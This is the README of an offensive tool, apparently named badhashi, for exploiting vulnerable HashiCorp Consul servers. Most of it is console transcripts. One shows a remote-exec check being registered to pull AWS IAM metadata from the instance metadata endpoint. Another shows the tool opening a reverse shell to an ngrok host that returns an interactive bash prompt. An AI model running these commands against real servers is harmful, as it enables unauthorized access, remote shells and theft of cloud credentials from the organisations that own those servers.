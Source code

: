 # badhashi
Scanning / Exploiting vulnerable hashicorp tools

![](https://github.com/grines/hashiscan/blob/main/badhashi.gif)


![](https://github.com/grines/hashiscan/blob/main/hashiscan-shell.gif)

# Features Consul
- [X] AWS Meta data extraction
- [X] Status (Check if vulnerable
- [X] Reverse shell
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# Features Nomad (Coming soon)
- [ ] AWS Meta data extraction
- [ ] Status (Check if vulnerable
- [ ] Reverse shell ( Raw_exec/ exec / docker)
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# How
Start ngrok
./ngrok tcp 9000

```console
Connected <http://127.0.0.1:8500>$ check status
DisableRemoteExec: true
EnableRemoteScriptChecks: true
NodeName: mini.hsd1.wa.comcast.net
Version: 1.9.3
Server: true
```

```console
Connected <http://127.0.0.1:8500>$ exploit metadata
----
Check Registered
Waiting for command to register...
ID: Test
HTTP GET http://169.254.169.254/latest/meta-data/iam/info: 200 OK Output: {
  "Code" : "Success",
  "LastUpdated" : "2021-02-25T06:15:20Z",
  "InstanceProfileArn" : "arn:aws:iam::*************************************",
  "InstanceProfileId" : "AIPA2LE*************"
}
Check Deregistered
---
```

(cmd ngrok-host ngrok-port local-port) ** can replace ngrok with external ip.
```console
Connected <http://127.0.0.1:8500>$ exploit shell 2.tcp.ngrok.io 18563 9000
----
Check Registered
Waiting for callback...
2021/02/24 23:16:21 Listening on localhost:9000
Check Deregistered
---
Client 127.0.0.1:51771 connected.
bash-$: whoami
brian
```

